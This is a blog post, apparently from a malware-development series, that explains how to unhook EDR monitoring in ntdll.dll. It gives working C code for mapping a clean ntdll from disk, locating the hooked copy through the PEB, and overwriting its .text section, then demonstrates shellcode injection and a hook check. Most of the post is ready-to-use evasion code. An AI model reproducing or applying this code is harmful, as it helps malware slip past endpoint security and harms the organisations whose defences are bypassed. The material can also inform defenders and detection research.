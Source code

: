 ```yaml
---
title: "EDR Evasion 101 - Pt 2: Ntdll Unhooking via Overwritte"
description: How to remove EDR hooks (byte patching hooking) in ntdll.
author: Oblivion
date: 2024-04-14 11:33:00 +0800
categories: [Malware Development]
tags: []
pin: false
math: true
mermaid: true
---
```


Ntdll Unhooking is a technique that consists of replacing the syscall stub and thus bypassing it. There are several ways to unhook the dll, but in this case, replace the text section of the dll, which is where the functions are located by the unhooked ntdll on the disk. Below are the code functions and what each one does:

- GetTextUnhooked:  Function responsible for reading the ntdll from the disk, mapping it in memory and recovering its text section.
- GetTextHooked:  Function responsible for returning the ntdll base address of the current process by PEB , and then return the text section of the hooked ntdll.
- ReplaceNtdllText: Function responsible for replacing the hooked ntdll with the unhooked one.

# GetTextUnhooked

First we use CreateFileA to retrieve a file identifier from the disk, then we get its size with GetFileSize to later pass it as a parameter to CreateFileMappingA, with CreateFileMapping we retrieve an identifier from a mapper file and then with MapViewOfFile we will have the memory address of the mapped file.

```c
HANDLE hNtdll = CreateFileA( ntdllName, GENERIC_READ , FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL );
if (hNtdll == INVALID_HANDLE_VALUE) {
    printf( "[!] CreateFileA for ntdll unhooked failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
    return FALSE;
}

DWORD ntdllSize = GetFileSize( hNtdll, NULL );

HANDLE hMapFile = CreateFileMappingA( hNtdll, NULL, PAGE_READONLY | SEC_IMAGE_NO_EXECUTE, 0, ntdllSize, NULL );
if (hMapFile == NULL) {
    printf( "\t[!] CreateFileMapping for ntdll unhooked failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
}

LPVOID pNtdllImage = MapViewOfFile( hMapFile, FILE_MAP_READ, 0, 0, 0 );
if (pNtdllImage == NULL) {
    printf( "\t[!] MapViewOfFile for REMOTE ntdll failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
}
```
Now as we have the address we can go to the important part which is getting the address of the text section and size of the text section, this is very simple, we will walk through the header arriving at the Optional Header where we find BaseOfCode and SizeOfCode.

```c
PVOID ptextRemote;
SIZE_T stextRemote;

PIMAGE_DOS_HEADER pImageDosHdr = (PIMAGE_DOS_HEADER)pNtdllImage;
if ( pImageDosHdr->e_magic != IMAGE_DOS_SIGNATURE ){
    printf( "\t[!] Invalid DOS Signature at unhooked ntdll\n" );
    goto _CLEANUP;
}

PIMAGE_NT_HEADERS pImageNtHdrs = (PIMAGE_NT_HEADERS)( (PBYTE)pNtdllImage + pImageDosHdr->e_lfanew );

PIMAGE_SECTION_HEADER pImageSectionHdr = (PIMAGE_SECTION_HEADER)( ( (PBYTE)pImageNtHdrs ) + sizeof(IMAGE_NT_HEADERS) );

ptextRemote = (PVOID)( pImageNtHdrs->OptionalHeader.BaseOfCode + (ULONG_PTR)pNtdllImage );
stextRemote = pImageNtHdrs->OptionalHeader.SizeOfCode;

printf( "\t[+] REMOTE Ntdll Text base address: 0x%p\n", ptextRemote );
printf( "\t[+] REMOTE Ntdll Text size: %d\n\n", stextRemote );
```

# GetTextHooked

First we will fill in the PEB structure and then on the following line:

```c
PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPEB->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
```

we calculate the address of the loader data table entry (LDR) of the system DLL "ntdll.dll". The PEB contains a pointer to the list of modules loaded in the current process. We will follow the linked list of modules until we find the entry corresponding to ntdll.dll and then subtract an offset of 0x10 to get to the beginning of the DLL data structure.

Now on the next line:

```c
PVOID pNtdllHooked = pLdr->DllBase;
```

We get the base address of the DLL "ntdll.dll" and store it in a variable called "pNtdllHooked".

```c

#ifdef _WIN64
	PPEB pPEB = (PPEB)__readgsqword(0x60);
#elif _WIN32
	PPEB pPEB = (PPEB)__readfsdword(0x30);
#endif // _WIN64

PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPEB->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);

PVOID pNtdllHooked = pLdr->DllBase;
```

In sequence, the same thing is done in the previous function:

```c
PIMAGE_DOS_HEADER	pLocalDosHdr	= (PIMAGE_DOS_HEADER)pNtdllHooked;
if (pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
    return FALSE;

PIMAGE_NT_HEADERS 	pLocalNtHdrs	= (PIMAGE_NT_HEADERS)((PBYTE)pNtdllHooked + pLocalDosHdr->e_lfanew);
if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE) 
    return FALSE;

PVOID	pLocalNtdllTxt	= (PVOID)(pLocalNtHdrs->OptionalHeader.BaseOfCode + (ULONG_PTR)pNtdllHooked);
SIZE_T	sNtdllTxtSize	= pLocalNtHdrs->OptionalHeader.SizeOfCode;	
```

# ReplaceNtdllText

This part is the simplest, we just change the memory protection with VirtualProtect, we will copy the text section of the ntdll read from the unhooked disk and replace the one that is hooked in the current process and finally we return the memory protection as it was previously.

```c
if (!VirtualProtect(pTextOriginalNtdll, sTextOriginalNtdll, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
	printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
	return FALSE;
}

memcpy(pTextOriginalNtdll, pTextUnhookedNtdll, sTextOriginalNtdll);

if (!VirtualProtect(pTextOriginalNtdll, sTextOriginalNtdll, dwOldProtection, &dwOldProtection)) {
	printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
	return FALSE;
}
```

# Demonstration

Now I will use a simple injection to execute calc.bin and use a function to perform a check and verify if the NtProtectVirtualMemory function is hooked. The function is as follows:

```c
PVOID pSyscallAddress = GetProcAddress( GetModuleHandleA( "NTDLL.DLL" ), "NtProtectVirtualMemory" );

printf( "[#] %s [ 0x%p ] ---> %s \n", "NtProtectVirtualMemory", pSyscallAddress, ( *(ULONG*)pSyscallAddress != 0xb8d18b4c ) == TRUE ? "[ HOOKED ]" : "[ UNHOOKED ]" );
```

![img](../commons/ntdll_unhooking_overwrite/img1.webp)

